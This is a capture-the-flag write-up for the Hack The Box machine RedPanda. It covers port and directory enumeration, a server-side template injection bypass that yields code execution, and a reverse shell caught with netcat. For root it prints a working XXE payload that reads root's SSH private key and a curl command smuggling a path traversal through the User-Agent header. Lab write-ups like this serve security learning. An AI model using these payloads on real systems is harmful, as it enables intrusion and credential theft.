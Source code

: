 # HTB Easy Machine : RedPanda 

[![redpandahtb.jpg](https://i.postimg.cc/DzB8tnrf/redpandahtb.jpg)](https://postimg.cc/XZBj5M1t)


Fast review of the machine : 

RedPanda was an easy-rated Linux HTB box made my Woodenk.
During our initial nmap scan we discover the port `8080` that hosts the main application of this box, we discover a field input and manage to exploit it using SSTI.
Having remote code execution we can either get the user flag directly or get a reverse shell using a msfvenom payload.
Finally, we will be able to escalate our privilege using XXE to leak root's SSH private key.

Enjoy ! 

------------------------------------------------------------------

# Enumeration  

Nmap scan : `nmap -p- -T4 -vv redpanda.htb -sV -oN nmap/full_port_scan`

```bash
PORT      STATE    SERVICE       REASON      VERSION
22/tcp    open     ssh           syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp  open     http-proxy    syn-ack
```

Only two standard ports are open, the one that hosts the website and SSH as usual.  


Directory fuzzing : `ffuf -w /opt/ctfstuff/seclists/Discovery/Web-Content/raft-small-words.txt -u http://redpanda.htb:8080/FUZZ

```bash
stats                   [Status: 200, Size: 987, Words: 200, Lines: 33]
```

Only one stands out, vising it we can download two `.xml` files that contain views stats about images : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>2</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>2</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

Initially, I thought about XXE to get a foothold but it didn't work.  

## SSTI

Going back to the main page we land on this page : 

[![image.png](https://i.postimg.cc/GtMKsYY0/image.png)](https://postimg.cc/XBCdRrQx)  
I tried some basic payloads like `${{7+7}}` but `$` was a banned character therefore the SSTI wouldn't work.

To bypass that we can use `*` as shown below : 

[![image.png](https://i.postimg.cc/Zn9BVy2z/image.png)](https://postimg.cc/p5HLdyPs)

Now that we know the field input is vulnerable to SSTI, we can craft some payload that will leak interesting files or information about the box. 

To do that I used the following tool : `https://github.com/VikasVarshney/ssti-payload` that create our payload by converting our string to decimal values and allows code execution using the java `getInputStream()` method.

[![carbon-1.png|600](https://i.postimg.cc/MTn3b966/carbon-1.png)](https://postimg.cc/xJSP9yNh)

(Don't forget to change `$` for `*` otherwise it will not work.)

[![image.png](https://i.postimg.cc/3NgBn6PT/image.png)](https://postimg.cc/V0knN7fG)  
It works ! 


------------------------------------------------------------------

# Initial Foothold

To get a reverse shell on our machine, we will craft a msfvenom payload, transfer & executing it on the target using the above method : 

[![carbon-2.png|600](https://i.postimg.cc/rsQvfD6c/carbon-2.png)](https://postimg.cc/tnnSTCCm)

```bash
➜  ~ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.170] 36942
id;whoami
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
woodenk
```

We got our shell ! We can read the user flag in Woodenk's home directory : 

```
woodenk@redpanda:/home/woodenk$ cat user.txt | wc -c
33
```

------------------------------------------------------------------

# Privilege Escalation 

First we can look for SUID, but nothing interesting on this side

[![image.png](https://i.postimg.cc/fbQK6DqJ/image.png)](https://postimg.cc/hXMTmWBB)

While doing more enumeration on the system and looking at what's running using `pspy` we discover that a script called `clean.up` is running, which is looking for .xml and .jpg files in some directories, then delete all of them : 

```
CMD: UID=0    PID=8420   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=8422   | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=8423   | /usr/bin/find /tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8424   | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8425   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8426   | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ;
CMD: UID=1000 PID=8429   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8430   | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8432   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```

To escalate our privileges to root, we will proceed as such : 

- Uploading a random image to the target
- Create a `.xml` file that will allow us to get the root's ssh private key (using a XXE vulnerability)
- Wait a few sec and download the new archive that is created on the website, containing the ssh key

Our XML file will look like that : 

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/black.jpg</uri> # Our image
    <privesc>&key;</privesc> # XXE here
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

We can now use curl to export our image to the website and get the key in the `.xml` file 

`curl http://redpanda.htb:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/black.jpg"`

We then go back to `/stats` where we can download the archive and voilà, the key is here ! 

[![image.png](https://i.postimg.cc/kXXWZwN3/image.png)](https://postimg.cc/rz3dR1YQ)

We can now log-in as root and get the root flag !

```bash
root@redpanda:~# id;whoami;ls
uid=0(root) gid=0(root) groups=0(root)
root
root.txt  run_credits.sh
root@redpanda:~# cat root.txt
1d98a8b546d502d9333cc7fc9461449e
```


------------------------------------------------------------------

# Final thoughts


The machine was quite easy but a bit of java knowledge is required in order to know what's going on, and how to craft effectively our `.xml` file to escalate our privileges to root. 

This is my first writeups (and not the last I hope !) so I hope this was understandable enough, more will come ! 

------------------------------------------------------------------

# References 

- https://github.com/DominicBreuker/pspy
- https://github.com/VikasVarshney/ssti-payload
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
